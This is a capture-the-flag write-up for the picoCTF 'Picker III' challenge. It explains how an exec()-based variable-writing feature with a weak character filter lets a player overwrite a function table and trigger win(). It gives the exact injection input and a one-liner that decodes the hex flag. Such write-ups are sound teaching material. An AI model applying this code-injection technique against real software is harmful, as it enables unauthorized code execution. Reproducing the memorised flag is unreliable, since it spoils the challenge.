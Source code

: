 # **Picker III**

This challange is same as [Picker I](../16/) & [Picker II](../17/)

Short summary: the program stores a fixed-width table of allowed function **names** in the string `func_table` (4 entries, 32 bytes each). The UI exposes a `write_variable` feature that uses `exec(...)` and allows expressions such as `func_table[32:]`. By rewriting the first 32-byte slot to contain `win` (padded with spaces) while preserving the table length, `get_func(0)` returns `"win"` and the program does `eval('win()')`. That calls the `win()` function and prints the flag (in hex).

---

# Challenge description / goal

You get an interactive prompt with these high-level features:

* A fixed-size string `func_table` holds 4 function names, each 32 bytes.
* `call_func(n)` finds the `n`th name in `func_table` and executes `eval(name+'()')`.
* `write_variable()` lets you set a global variable via `exec('global '+var_name+'; '+var_name+' = '+value)`.
* `filter_value()` forbids `;`, `(`, `)` in the `value`, but allows slicing (`[]`) and concatenation (`+`), quotes, spaces, etc.
* Your objective: cause the program to run `win()` (which prints the flag in hex).

---

# Vulnerability (why exploit works)

1. `func_table` entries are fixed-width 32-byte slots. `get_func(n)` finds the first space in the slot and returns the substring before it.
2. `write_variable()` uses `exec` on user-supplied expressions and only blocks `;` and parentheses. That still allows expressions like `'win' + ' ' * 29 + func_table[32:]`.
3. By assigning that expression to `func_table`, you replace the first slot with `'win'` followed by spaces and re-append the remainder of the table (`func_table[32:]`), preserving total length so `check_table()` still passes.
4. `call_func(0)` then returns `'win'` and executes `eval('win()')`.

---

# Step-by-step exploit (exact inputs)

1. Choose the **write variable** entry from the menu. The printed table shows:

![first](./img/first.png)

So enter:

```
==> 3
```

2. When prompted for variable name, type:

```
Please enter variable name to write: func_table
```

`func_table` is a valid identifier 

```py
  func_table = \
'''\
print_table                     \
read_variable                   \
write_variable                  \
getRandomNumber                 \
'''
```

3. For the new value, enter exactly:

```
Please enter new value of variable: 'win' + ' ' * 29 + func_table[32:]
```

Explanation:

* `'win' + ' ' * 29` → a 32-char slot: `'win'` + 29 spaces (3 + 29 = 32).
* `func_table[32:]` → append the rest of the table (entries 2..4), preserving total length (128).
* The expression contains no `; ( )` so it passes `filter_value()`.

4. Now call the first entry:

```
==> 1
```

This runs `call_func(0)` → `get_func(0)` → returns `'win'` → `eval('win()')` → executes `win()`.

5. Expected output (on real CTF remote where `flag.txt` exists):

![flag_hex](./img/flag_hex.png)

(Flag bytes in hex). Locally, if `flag.txt` is absent you’ll see a `FileNotFoundError`.

---

# Why `func_table[32:]` is used

* `func_table[32:]` slices the string starting at byte index 32 to the end — i.e. entries 2..4.
* That allows you to *replace only the first slot* while keeping the rest unchanged.

Visual: before

```
[0..31]   print_table + padding
[32..63]  read_variable + padding
[64..95]  write_variable + padding
[96..127] getRandomNumber + padding
```

After assignment `'win' + ' ' * 29 + func_table[32:]`:

```
[0..31]   win + padding
[32..63]  read_variable + padding  (unchanged)
[64..95]  write_variable + padding (unchanged)
[96..127] getRandomNumber + padding(unchanged)
```

---

# Converting the printed hex flag to ASCII


use this quick Python one-liner locally or in a REPL to convert:

```python
hexs = "0x70 0x69 0x63 0x6f 0x43 0x54 0x46 0x7b 0x37 0x68 0x31 0x35 0x5f 0x31 0x35 0x5f 0x77 0x68 0x34 0x37 0x5f 0x77 0x33 0x5f 0x67 0x33 0x37 0x5f 0x77 0x31 0x37 0x68 0x5f 0x75 0x35 0x33 0x72 0x35 0x5f 0x31 0x6e 0x5f 0x63 0x68 0x34 0x72 0x67 0x33 0x5f 0x32 0x32 0x36 0x64 0x64 0x32 0x38 0x35 0x7d"
print(''.join(chr(int(x,16)) for x in hexs.split()))
```

![flag](./img/flag.png)